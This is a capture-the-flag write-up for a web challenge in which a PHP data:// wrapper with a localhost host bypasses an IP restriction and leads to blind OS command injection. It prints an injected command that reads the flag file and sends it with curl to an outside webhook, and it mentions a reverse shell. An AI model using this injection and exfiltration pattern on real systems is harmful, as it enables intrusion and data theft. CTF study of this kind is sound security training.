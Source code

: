 ### SAFE_CONTENT

Points: 100 \
Difficulty: Medium \
Category: Web \
Author: skyv3il \
Solves: 87

### Description

Our site has been breached. Since then we restricted the ips we can get files from. This should reduce our attack surface since no external input gets into our app. Is it safe ?

For the source code, go to /src.php

### Screen

![](img/task.png)


### Writeup

Go to site and show source code /src.php

![](img/img1.png)

![](img/img2.png)

Try user php wrippers file:// , check True and False:

![](img/img3.png)

![](img/img4.png)

Ok, wrappers works, and we hase Blind OS Command Injection. Try use PHP data wrapper:

```
data://text@localhost/plain,payload_here
```

```

Parsed URL:
array(4) {
  ["scheme"]=>
  string(4) "data"
  ["host"]=>
  string(9) "localhost"
  ["user"]=>
  string(4) "text"
  ["path"]=>
  string(19) "/plain,payload_here"
}
```

Blind OS command injection payload use webhook or reverse-shell:
```
$ echo -n "'' && cat /flag.txt | base64 | curl -d @- 'https://webhook.site/<your_webhook_id>' #" | base64 -w0
<base64_encoded_payload>
```

Then send the payload:
```
GET /?url=data://text@localhost/plain,<base64_encoded_payload> HTTP/1.1
```

Finally, you should see the incoming POST request in your webhook, the body data contains the base64 encoded flag.

I used reverse shell payload:

![](img/img5.png)

![](img/img6.png)
